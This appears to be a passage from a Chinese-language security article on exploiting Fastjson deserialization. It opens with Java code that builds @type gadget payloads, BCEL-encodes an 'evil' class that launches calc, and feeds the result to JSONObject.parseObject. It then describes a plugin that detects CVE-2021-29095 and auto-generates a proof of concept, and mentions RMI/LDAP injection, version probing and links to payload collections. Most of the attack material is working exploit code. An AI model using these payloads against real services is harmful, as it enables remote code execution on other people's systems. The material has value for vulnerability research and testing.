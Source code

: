```
//			payload3 = &#34;{{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;,&#34;c&#34;:{&#34;@type&#34;:&#34;org.apache.tomcat.dbcp.dbcp2.BasicDataSource&#34;,&#34;driverClassLoader&#34;:{&#34;@type&#34;:&#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;},&#34;driverClassName&#34;:&#34;xxxxxxxxxx&#34;}}:&#34;ddd&#34;}&#34;;
//			payload3 = &#34;{{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;,&#34;c&#34;:{&#34;@type&#34;:&#34;org.apache.commons.dbcp.BasicDataSource&#34;,&#34;driverClassLoader&#34;:{&#34;@type&#34;:&#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;},&#34;driverClassName&#34;:&#34;xxxxxxxxxx&#34;}}:&#34;ddd&#34;}&#34;;
//			payload3 = &#34;{{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;,&#34;c&#34;:{&#34;@type&#34;:&#34;org.apache.commons.dbcp2.BasicDataSource&#34;,&#34;driverClassLoader&#34;:{&#34;@type&#34;:&#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;},&#34;driverClassName&#34;:&#34;xxxxxxxxxx&#34;}}:&#34;ddd&#34;}&#34;;
            byte[] bytecode = createEvilClass.create(&#34;evil&#34;,&#34;calc&#34;);
            String classname = Utility.encode(bytecode,true);
            //System.out.println(classname);
            classname = &#34;org.apache.log4j.spi$$BCEL$$&#34;+classname;
            payload2 = payload2.replace(&#34;xxxxxxxxxx&#34;, classname);
//			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//			Class.forName(classname, true, cls);
            JSONObject.parseObject(payload2);
            return payload2;
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}
```

# 插件检测CVE-2021-29095  
  
这里插件会检测并且自动构造poc  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuGQxibN8ico8CoZGXM2Ofibgk2amGO8729TkicaYOsibNe1K8nbJ3dd9EIug/640?wx_fmt=png&from=appmsg "")  
  
然后构造一个rmi或者ldap注入即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuEIWO0jX2QL6n3Wj29sic4L29pZYptRdbzOt2oeb10IPuBJYQ7pib2XqA/640?wx_fmt=png&from=appmsg "")  
  
版本探针,我们开的也是1.2.24  
  
核心点：  
  
-  
利用POC  
集合  
  
https://github.com/kezibei/fastjson_payload  
  
https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w  
  
-  
探针JSON插件  
  